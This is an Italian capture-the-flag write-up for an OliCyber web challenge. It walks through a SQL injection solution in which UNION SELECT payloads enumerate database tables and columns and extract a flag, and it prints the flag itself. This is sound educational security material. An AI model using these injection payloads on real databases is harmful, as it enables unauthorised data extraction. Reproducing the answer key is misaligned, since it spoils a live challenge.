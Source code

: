 # Writeup: Sn4ck sh3nan1gans 🍪


## Overview
- **Categoria:** Web
- **Autore:** lotus98
- **Difficoltà:** 🟡 186/500
- **Stato:** Up
- **URL:** http://sn4ck-sh3nan1gans.challs.olicyber.it


## Descrizione 📝
La challenge presenta una semplice pagina di login apparentemente innocua. Un'analisi più approfondita rivela una vulnerabilità SQL Injection che permette di estrarre informazioni dal database sottostante.


## Soluzione 🎯


### 1. Enumerazione Database
```sql
99999 UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1
```
**Risultati:**
- Database: `challdb`
- Tabelle: `users`, `here_is_the_flag`


### 2. Enumerazione Colonne
```sql
99999 UNION SELECT concat(column_name) FROM information_schema.columns where table_name='here_is_the_flag' LIMIT 1 OFFSET 1
```
**Risultato:** Colonna `flag` identificata


### 3. Estrazione Flag
```sql
99999 UNION SELECT flag FROM here_is_the_flag LIMIT 1 OFFSET 0
```


## Flag 🏁
```
flag{W4sH_y0ur_HaNd5_b3f0Re_e4tin6_c0oki3s!}
```


## Lezioni Apprese 📚
- Importanza della sanitizzazione degli input utente
- Rischi delle vulnerabilità SQL Injection
- Tecniche di enumerazione database attraverso UNION SELECT


## Tools Utilizzati 🛠️
- Browser Web
- Burp Suite (opzionale per il testing)


---
*Writeup by Luca Crippa - Last Updated: 2024*
